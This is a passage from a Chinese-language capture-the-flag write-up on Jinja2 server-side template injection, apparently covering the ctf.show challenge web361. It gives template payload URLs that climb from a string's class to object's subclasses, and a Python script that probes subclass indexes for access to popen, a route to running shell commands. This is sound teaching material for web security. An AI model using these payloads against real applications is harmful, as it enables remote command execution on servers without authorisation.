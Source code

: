 ### SSTI-jinja2执行命令

```
内建函数 eval 执行命令
os 模块执行命令
popen 函数执行命令
importlib 类执行命令
linecache 函数执行命令
subprocess.Popen 类执行命令
```

### 一般注入流程

在检测到存在SSTI模板注入漏洞之后->获得内置类所对应的类->获得object基类->获得所有子类->获得可以执行shell命令的子类->找到该子类可以执行shell命令的方法->执行shell命令

## 靶场题目

### [web361]无过滤

```
http://ce35ed03-e23c-4193-91c5-a9cec7d03e26.challenge.ctf.show/?name={{7*7}}
```

回显49，存在ssti注入漏洞

获得内置类所对应的类

```
http://ce35ed03-e23c-4193-91c5-a9cec7d03e26.challenge.ctf.show/?name={{''.__class__}}
```

获得object基类

```
http://ce35ed03-e23c-4193-91c5-a9cec7d03e26.challenge.ctf.show/?name={{''.__class__.__base__}}
```

获得所有子类

```
http://ce35ed03-e23c-4193-91c5-a9cec7d03e26.challenge.ctf.show/?name={{''.__class__.__base__.__subclasses__()}}
```

![image-20240225123753296](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240225123753296.png)

通过python脚本判断可以执行shell命令子类的索引值

以子类是否存在popen方法为例：

```python
import requests

for num in range(500):
    try:
        url = "http://53e07393-3341-47a7-b048-e4773c51a22c.challenge.ctf.show/?name={{''.__class__.__base__.__subclasses__()["+str(num)+"].__init__.__globals__['popen']}}"
        res = requests.get(url=url).text
        if 'popen' in res:
            print(num)
    except:
        pass

```
